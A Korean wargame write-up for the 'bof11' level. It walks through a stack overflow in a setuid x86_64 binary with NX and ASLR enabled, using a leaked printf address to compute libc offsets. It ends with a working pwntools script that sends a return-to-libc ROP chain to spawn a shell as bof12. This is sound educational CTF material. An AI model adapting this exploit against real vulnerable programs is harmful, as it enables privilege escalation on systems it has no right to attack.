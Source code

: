 # bof11 풀이

## 개요

현재 bof10의 id로 접속한 상태이고, bof11의 권한을 얻고싶은 상황이다.

![permission](image/01permission.JPG)  
bof11로 home directory를 보면 <code>bof11</code>, <code>bof11.c</code> 파일과 bof12의 비밀번호가 있는 <code>bof12.pw</code> 파일이 있다.  
<code>bof12.pw</code>를 읽기 위해서는 bof12의 권한이 필요한데, 마침 <code>bof11</code>파일이 bof12권한으로 실행되므로 이 프로그램을 이용해보도록 하자.

## 프로그램 분석  
![file info](image/02fileinfo.JPG)
file 명령을 통해 bof11파일을 분석해보니 x86_64 프로그램이다.  
![NXbit](image/03NXbitcheck.JPG)  
gdb의 vmmap 명령으로 실행 권한을 확인해본 결과 NXbit가 적용되어 stack에 실행권한이 없다. 따라서 RTL방식으로 접근해야 한다.  
![ASLR](image/04ASLR.JPG)  
또한 ASLR적용 여부를 확인해본 결과 적용이 돼있어 gdb로 구한 주소를 구하지 못하기 때문에, 알 수 있는 하나의 주소를 기준으로 접근해야 한다.

## 소스코드
![sourceCode](image/02sourceCode.JPG)   
코드를 분석해보면 <code>vuln()</code> 함수로 들어가 <code>printf</code> 의 주소를 출력하고 <code>fgets</code>로 입력을 받아 <code>buf</code>에 저장하고 <code>buf</code>의 내용을 출력한다.  

이 때 <code>vuln</code>함수로 들어간다는 점을 이용해 [bof9](./../../day8/)와 같이 아래의 payload를 만들어 넣어주면 될 것 같다. 
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|
|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() |
|값|x|??|??|??|
| 크기 | ?? | 8byte | 8byte | 8byte |  
다만, 이번에는 절대주소가 아닌 printf를 기준으로 상대주소를 넣어주어야 하기 때문에 poc 코드로 만들어보자.

## buf와 return address 사이의 거리  
gdb를 이용해 buf와 return address가 저장된 곳의 거리를 구해보도록 하자  

1. return address 저장 주소  
![return address](image/05returnaddress.JPG)  
<code>vuln</code>함수에 들어오면 가장 먼저 return address를 stack에 저장한다. 이 값은 $rsp에 저장되어 있으므로 $rsp의 값을 읽었다.

2. buf 주소  
![buf address](image/06bufaddress.JPG)  
buf의 주소는 아래에서 <code>fgets</code>에서 <code>buf</code>의 주소를 사용하므로, 이 때 $rax를 보면 알 수 있다.  

3. buf - innocent 사이의 거리  
    - return address가 저장된 주소 0x7ffe631b2b68 
    - buf 주소 0x7ffe631b2b56  

    둘의 차이를 계산해보면 18byte 차이가 난다.  

## return address 조작하기  
우리가 이제 해야할 일은 return address에 <code>pop rdi ; ret</code> 가젯의 주소를 넣는 것이다.  
![pop rdi ; ret](image/07poprdiret.JPG)
먼저 ROPgadget.py 프로그램으로 libc에서의 <code>pop rdi ; ret</code>의 주소를 찾았다. 위의 주소들 중 정확하게 맞는 0x21102일 것이다.  
![libcaddress](image/08libcaddress.JPG)  
그리고 gdb의 <code>vmmap</code>명령으로 실행권한이 있는 libc의 주소를 찾았다.  
![pop rdi ; ret address](image/09poprdiretaddress.JPG)
따라서 최종적으로 둘을 더한 값이 return해야 할 <code>pop rdi ; ret</code>의 주소이며, 그 값은 위처럼 구한 <code>0x7f2feb729102</code> 이다.

## return 이후 payload  
현재 아래와 같이 구해졌다.
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|printf 주소|
|:---:|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() | printf() |
|현재 절대주소||0x7f2feb729102|??|??|??|
|값|x|??|??|??|??|
| 크기 | 18byte | 8byte | 8byte | 8byte ||

나머지를 더 구해보자

1. /bin/sh 주소  
    ![/bin/sh address](image/10binshaddress.JPG)  
    <code>/bin/sh</code>의 주소는 gdb의 <code>search-pattern</code> 명령을 이용해 간단하게 찾았다.
2. system 함수 주소
    ![system address](image/11systemaddress.JPG)  
    <code>system</code> 함수의 주소도 gdb의 <code>p</code> 명령을 이용해 간단하게 찾았다.
3. printf 함수 주소  
    ![printf address](image/12printfaddress.JPG)  
    마지막으로 <code>printf</code> 함수의 주소도 gdb의 <code>p</code> 명령을 이용해 간단하게 찾았다.

## payload 만들기  
현재까지 구한 절대 주소를 이용해 printf의 주소로 상대 주소를 구하고, runtime 중에 구할 수 있는 printf의 주소를 참조한 주소를 값으로 만들어주어야 한다.  
 - return할 주소(pop rdi ; ret 가젯): 0x7f2feb729102 - 0x7f2feb75d800 = -214782  
 - "/bin/sh" 주소 : 0x7f2feb894d57 - 0x7f2feb75d800 = 1275223  
 - system함수 주소 : 0x7f2feb74d390 - 0x7f2feb75d800 = -66672

   
따라서 현재 다음과 같이 구했다.  
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|printf 주소|
|:---:|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() | printf() |
|현재 절대주소||0x7f2feb729102|0x7f2feb894d57|0x7f2feb74d390|0x7f2feb75d800|
|값|| x - 214782 | x + 1275223 | x - 66672 | x |
| 크기 | 18byte | 8byte | 8byte | 8byte ||

## poc 코드 제작
지금까지 구한 값을 가지고 pwn tool을 이용해 python poc 코드를 만들어보자.
```python
from pwn import *

p = process('./bof11') # ./bof11 파일을 실행

p.recvuntil('printf() address : ') # 해당 문자열이 출력될 때 까지
printf_addr = p.recvuntil('\n') # 개행문자까지 receive (printf의 주솟값이 된다)
printf_addr = int(printf_addr, 16) # hexadecimal byte로 저장

# 각 payload의 주솟값
poprdi = printf_addr + (-214782)
binsh = printf_addr + (1275223)
sys_addr = printf_addr + (-66672)
distance_to_returnAddr = 18

# payload 작성
payload = str.encode("A" * distance_to_returnAddr)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(sys_addr)
p.send(payload)

p.interactive() # shell 실행시 interact
```

## 성공
![done](image/13done.JPG)  
![password](image/14password.JPG)  
위처럼 payload를 넘겨주어 bof12의 권한을 탈취하는데 성공했다!